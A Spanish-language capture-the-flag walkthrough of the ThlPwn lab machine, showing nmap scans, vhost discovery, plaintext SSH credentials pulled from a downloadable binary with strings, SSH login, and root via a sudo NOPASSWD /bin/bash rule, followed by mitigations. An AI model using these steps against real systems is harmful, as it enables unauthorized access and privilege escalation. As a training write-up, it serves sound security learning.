## Información General

|Campo|Detalle|
|---|---|
|Plataforma|TheHackersLabs|
|Máquina|ThlPwn|
|Dirección IP|192.168.241.168|
|Sistema Operativo|Linux (Debian 12)|
|Servicios expuestos|SSH (22), HTTP (80, nginx)|
|Vector de entrada|Credenciales SSH filtradas en binario descargable del sitio web|
|Escalada de privilegios|Regla sudo mal configurada: `(ALL) NOPASSWD: /bin/bash`|

## Resumen del Ataque

El servidor web bloquea el acceso directo por IP y exige virtual hosting, indicando explícitamente en el propio mensaje 403 que hay que descubrir el hostname correcto. Una vez resuelto el vhost, la sección de "Downloads" del sitio ofrece un binario ELF (`auth_checker`) para descargar libremente. Un simple `strings` sobre el binario revela credenciales SSH en texto plano embebidas como parte de un banner de "vulnerabilidad explotada con éxito", sin necesidad de realizar ningún exploit real de buffer overflow. Con esas credenciales se obtiene acceso SSH directo, y una regla de sudo sin contraseña sobre `/bin/bash` permite escalar a root de forma inmediata.

## Técnicas Usadas

- Escaneo de puertos con Nmap (TCP SYN, todos los puertos + detección de versiones)
- Descubrimiento de virtual hosting a partir del mensaje de error 403
- Resolución de vhost vía `/etc/hosts`
- Análisis estático de binario ELF con `file` y `strings`
- Extracción de credenciales embebidas en texto plano
- Acceso remoto vía SSH con credenciales válidas
- Enumeración de privilegios sudo (`sudo -l`)
- Escalada de privilegios por regla sudo NOPASSWD mal configurada

## Desarrollo

**1. Escaneo inicial de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.168
```



**2. Detección de versiones y servicios**

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.168
```



**3. Acceso directo por IP bloqueado**

```
http://192.168.241.168/
```

El propio servidor indica explícitamente que se requiere virtual hosting.



**4. Resolución del vhost**

Se añade `thlpwn.thl` a `/etc/hosts` apuntando a la IP objetivo.

```
http://thlpwn.thl/
```



**5. Localización de un binario descargable**

```
http://thlpwn.thl/downloads/
```

En la sección "Downloads" se encuentra un botón "Download Binary" que permite descargar libremente un ejecutable ELF (`auth_checker`).



**6. Análisis estático del binario**

```
file auth_checker
```



```
strings auth_checker
```

Entre las cadenas extraídas aparece un banner de "autenticación explotada con éxito" que incluye credenciales SSH en texto plano:

```
   VULNERABILITY EXPLOITED SUCCESSFULLY! 
  SSH Access Credentials:
  ========================
  Username: thluser
  Password: 9Kx7mP2wQ5nL8vT4bR6zY
  Connect with:
  ssh thluser@xxx.xxx.xxx.xxx
  First Flag Location:
  cat ~/flag.txt
```

No hace falta ejecutar ni explotar el binario: las credenciales quedan expuestas directamente en la sección `.rodata`, embebidas como parte del propio mensaje de "éxito" que el binario mostraría tras un supuesto bypass.



**7. Acceso SSH con las credenciales filtradas**

```
ssh thluser@192.168.241.168
```

```
thluser@thlpwn:~$ whoami
```



**8. Enumeración de usuarios con shell**

```
thluser@thlpwn:~$ grep bash /etc/passwd
```



**9. Captura de la primera flag**

```
thluser@thlpwn:~$ cat flag.txt 
```



**10. Enumeración de privilegios sudo**

```
thluser@thlpwn:~$ sudo -l
```

`thluser` puede ejecutar `/bin/bash` como cualquier usuario sin contraseña: escalada trivial.



**11. Escalada de privilegios**

```
thluser@thlpwn:~$ sudo /bin/bash
```

```
root@thlpwn:/home/thluser# whoami
```



**12. Captura de la flag de root**

```
root@thlpwn:/home/thluser# cd /root/
root@thlpwn:~# cat root.txt 
```



## Lecciones Aprendidas

- El mensaje de error 403 fue en realidad una pista deliberada, mostrando que incluso los mensajes de error "genéricos" pueden filtrar información útil para el atacante.
- Publicar binarios descargables sin control es un vector de fuga de información: un simple `strings` bastó para obtener credenciales SSH válidas, sin necesidad de ingeniería inversa real ni de explotar el supuesto buffer overflow.
- El nombre y el contenido del binario ("Buffer overflow detected", "Security check bypassed") eran una distracción: el verdadero fallo no estaba en la lógica del programa sino en datos sensibles embebidos en el propio ejecutable.
- Una regla de sudo `NOPASSWD: /bin/bash` equivale a privilegios de root completos para el usuario, anulando cualquier otro control de acceso del sistema.

## Medidas de Mitigación

- No embeber credenciales, claves ni secretos en binarios, código fuente o archivos distribuibles, ni siquiera con fines de demostración o CTF en entornos que puedan filtrarse a producción.
- Retirar de la sección de descargas cualquier binario que no sea estrictamente necesario para el usuario final; si es necesario, ofuscar o cifrar cadenas sensibles y auditar el binario antes de publicarlo.
- Revisar los mensajes de error personalizados para no revelar detalles de la arquitectura interna (virtual hosting, hostnames esperados, etc.) más allá de lo estrictamente necesario.
- Configurar las reglas de sudoers con el mínimo privilegio posible, evitando `NOPASSWD` sobre intérpretes de shell completos como `/bin/bash`, `/bin/sh` o similares.
- Forzar el uso de contraseña incluso para comandos sudo específicos y limitar los comandos permitidos a rutas y argumentos concretos.


